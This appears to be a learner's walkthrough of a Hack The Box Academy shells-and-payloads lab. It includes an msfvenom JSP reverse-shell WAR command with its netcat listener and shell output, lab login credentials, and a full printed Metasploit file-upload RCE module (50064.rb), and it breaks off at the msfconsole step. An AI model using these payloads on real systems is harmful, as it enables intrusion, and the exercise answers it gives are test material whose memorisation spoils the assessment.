



# Shells & Payloads - Live Engagement Assessment
## Scenario
Situation:
- Foothold established
- Initial recon performed

Tasks:
- Exploit a Windows Host / Server
- Exploit a Linux Host / Server
- Exploit a Web Application

## Action

Own ip `10.10.14.201`

Foothold ip: `10.129.204.126`

### RDP into foothold host

```shell
xfreerdp /v:10.129.204.126 /u:htb_student /p:HTB_@cademy_stdnt!
```
-> Got RDP Access:


Found some creds in access-creds.txt on Desktop


### 1. Question:
What is the hostname of Host-1?

-> Nmap Scan to get the host name:

```shell
sudo nmap -A -sV -T4 -Pn -p- -oN Host1.txt 172.16.1.11
```
I found in the result the hostname: SHELLS-WINSVR

### 2. Question:
What is the folder name under C:\Shares\...

For that we make use of the installed firefox instance and connect to the server on 8080 from the foothold.

```shell
firefox 172.16.1.11
```

Here we find the management overview page of Apache Tomcat:


Via the Manager App to which we can login with one of the found credentials we able to upload a WAR-File and deploy it on a specified path:


Now let's generate a WAR-File Payload:


! Need jsp_shell_reverse_tcp !

```shell
msfvenom -p java/jsp_shell_reverse_tcp -f war -a x86 LPORT=4444 LHOST=172.16.1.5 -o shell.war

# Result

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Payload size: 1094 bytes
Final size of war file: 1094 bytes
Saved as: shell.war
```

Uploading the war file to test if upload works:


worked!

now let's start a meterpreter listener of the foodhold:

```shell
nc -nlvp 4444
listening on [any] 4444 ...

# open /shell on the tomcat server
connect to [172.16.1.5] from (UNKNOWN) [172.16.1.11] 49709
Microsoft Windows [Version 10.0.17763.2114]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>
```

Now opening the C:\Shares directory to get the directory name for the answer 2

```shell
C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>cd c:\Shares

C:\Shares>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2683-3D37

 Directory of C:\Shares

09/22/2021  01:22 PM    <DIR>          .
09/22/2021  01:22 PM    <DIR>          ..
09/22/2021  01:24 PM    <DIR>          dev-share
               0 File(s)              0 bytes
               3 Dir(s)  26,672,525,312 bytes free


```

And there we have the answer for Question 2

---

### 3. Question:
*What distribution of Linux is running on Host-2?*

To come to that answer we run an nmap scan via the domain-name

```shell
sudo nmap -O blog.inlanefreight.local
[sudo] password for htb-student: 
Starting Nmap 7.92 ( https://nmap.org ) at 2026-08-03 15:03 EDT
Nmap scan report for blog.inlanefreight.local (172.16.1.12)
Host is up (0.042s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:50:56:8A:60:41 (VMware)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.4
OS details: Linux 5.4
Network Distance: 1 hop

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.60 seconds
```

Which, at the end, does not provide us much information. We extend the scan to perform a full scan will service scan as this may lead to additional details:
```shell 
sudo nmap -sV -O -vv blog.inlanefreight.local
Starting Nmap 7.92 ( https://nmap.org ) at 2026-08-03 15:09 EDT
NSE: Loaded 45 scripts for scanning.
Initiating ARP Ping Scan at 15:09
Scanning blog.inlanefreight.local (172.16.1.12) [1 port]
Completed ARP Ping Scan at 15:09, 0.07s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:09
Scanning blog.inlanefreight.local (172.16.1.12) [1000 ports]
Discovered open port 80/tcp on 172.16.1.12
Discovered open port 22/tcp on 172.16.1.12
Completed SYN Stealth Scan at 15:09, 2.28s elapsed (1000 total ports)
Initiating Service scan at 15:09
Scanning 2 services on blog.inlanefreight.local (172.16.1.12)
Completed Service scan at 15:09, 6.02s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against blog.inlanefreight.local (172.16.1.12)
Retrying OS detection (try #2) against blog.inlanefreight.local (172.16.1.12)
Retrying OS detection (try #3) against blog.inlanefreight.local (172.16.1.12)
Retrying OS detection (try #4) against blog.inlanefreight.local (172.16.1.12)
Retrying OS detection (try #5) against blog.inlanefreight.local (172.16.1.12)
NSE: Script scanning 172.16.1.12.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 15:09
Completed NSE at 15:09, 0.02s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 15:09
Completed NSE at 15:09, 0.01s elapsed
Nmap scan report for blog.inlanefreight.local (172.16.1.12)
Host is up, received arp-response (0.0021s latency).
Scanned at 2026-08-03 15:09:05 EDT for 21s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
MAC Address: 00:50:56:8A:60:41 (VMware)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/3%OT=22%CT=1%CU=42179%PV=Y%DS=1%DC=D%G=Y%M=005056%TM
OS:=6A70E766%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%T
OS:S=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=
OS:M5B4ST11NW7%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=F
OS:E88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A
OS:=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%
OS:Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=
OS:A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 18.678 days (since Wed Jul 15 22:53:38 2026)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=254 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.99 seconds
           Raw packets sent: 1126 (53.818KB) | Rcvd: 1066 (46.086KB)
```

Here we can see, that the server is running Ubuntu. With a little help from Google, we figure out that Kernel 5.4 is part of Ubuntu 20.04. The answer is simply "ubunut"

--- 
### 4. Question
*What language is the shell written in that gets uploaded when using the 50064.rb exploit?*

To figure this out we download the exploit from exploitdb and look at it:

```shell
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient

  def initialize(info={})
    super(update_info(info,
      'Name'           => "Lightweight facebook-styled blog authenticated remote code execution",
      'Description'    => %q{
        This module exploits the file upload vulnerability of Lightweight self-hosted facebook-styled PHP blog and allows remote code execution.
      },
      'License'        => MSF_LICENSE,
      'Author'         =>
        [
          'Maide Ilkay Aydogdu <ilkay@prodaft.com>' # author & msf module
        ],
      'References'     =>
        [
          ['URL', 'https://prodaft.com']
        ],
      'DefaultOptions'  =>
        {
          'SSL' => false,
          'WfsDelay' => 5,
        },
      'Platform'       => ['php'],
      'Arch'           => [ ARCH_PHP],
      'Targets'        =>
        [
          ['PHP payload',
            {
              'Platform' => 'PHP',
              'Arch' => ARCH_PHP,
              'DefaultOptions' => {'PAYLOAD'  => 'php/meterpreter/bind_tcp'}
            }
          ]
        ],
      'Privileged'     => false,
      'DisclosureDate' => "Dec 19 2018",
      'DefaultTarget'  => 0
    ))

    register_options(
      [
        OptString.new('USERNAME', [true, 'Blog username', 'demo']),
        OptString.new('PASSWORD', [true, 'Blog password', 'demo']),
        OptString.new('TARGETURI', [true, 'The URI of the arkei gate', '/'])
      ]
    )
  end


  def login

    res = send_request_cgi(
      'method'    => 'GET',
      'uri'       => normalize_uri(target_uri.path),
    )


    cookie = res.get_cookies
    token = res.body.split('":"')[1].split('"')[0]
    # token = res.to_s.scan(/"[abcdef0-9]{10}"}/)[0].to_s.tr('"}', '')
    print_status("Got CSRF token: #{token}")
    print_status('Logging into the blog...')
    res = send_request_cgi(
      'method'    => 'POST',
      'uri'       => normalize_uri(target_uri.path, 'ajax.php'),
      'headers' => {
        'Csrf-Token' => token,
      },
      'cookie' => cookie,
      'data'      => "action=login&nick=#{datastore['USERNAME']}&pass=#{datastore['PASSWORD']}",
    )

    if res && res.code == 200
      print_good("Successfully logged in with #{datastore['USERNAME']}")
      json = res.get_json_document
      if json.empty? && json['error']
        print_error('Login failed!')
        return nil, nil
      end
    else
      print_error("Login failed! Status code #{res.code}")
      return nil, nil
    end

    return cookie, token
  end


  def exploit
    cookie, token = login
    unless cookie || token
      fail_with(Failure::UnexpectedReply, "#{peer} - Authentication Failed")
    end

    data = Rex::MIME::Message.new # jWPU1tZmoAZgooopowaNGjRq0KhBowaNGjRqEHYAALgBALdg7lyPAAAAAElFTkSuQmCC
    png = Base64.decode64('iVBORw0KGgoAAAANSUhEUgAAABgAAAAbCAIAAADpgdgBAAAACXBIWXMAAA7EAAAOxAGVKw4bAAAAJElEQVQ4') # only the PNG header
    data.add_part(png+payload.encoded, 'image/png', 'binary', "form-data; name=\"file\"; filename=\"mia.php\"")
    print_status('Uploading shell...')
    res = send_request_cgi(
      'method'    => 'POST',
      'uri'       => normalize_uri(target_uri.path,'ajax.php'),
      'cookie' => cookie,
      'vars_get' => {
        'action' => 'upload_image'
      },
      'headers' => {
        'Csrf-Token' => token,
      },
      'ctype'     => "multipart/form-data; boundary=#{data.bound}",
      'data'      => data.to_s,
    )

    # print_status(res.to_s)
    if res && res.code == 200
      json = res.get_json_document
      if json.empty? || !json['path']
        fail_with(Failure::UnexpectedReply, 'Unexpected json response')
      end

      print_good("Shell uploaded as #{json['path']}")
    else
      print_error("Server responded with code #{res.code}")
      print_error("Failed to upload shell")
      return false
    end

    send_request_cgi({
      'method' => 'GET',
      'uri' => normalize_uri(target_uri.path, json['path'])}, 3
    )
    print_good("Payload successfully triggered !")
  end
end
            
```

This looks like PHP code

---

### 5. Question
*Exp;oit the blog site and sestablish a shell session with the target OS. Submit the contents of /customscripts/flag.txt*

We get to exploit it!
For this we use metasploit as this exploit is already written to be added to msfconsole

```shell

msfconsole
msf> 
/usr/share/exploitdb/exploits/php/webapps/50064.rb

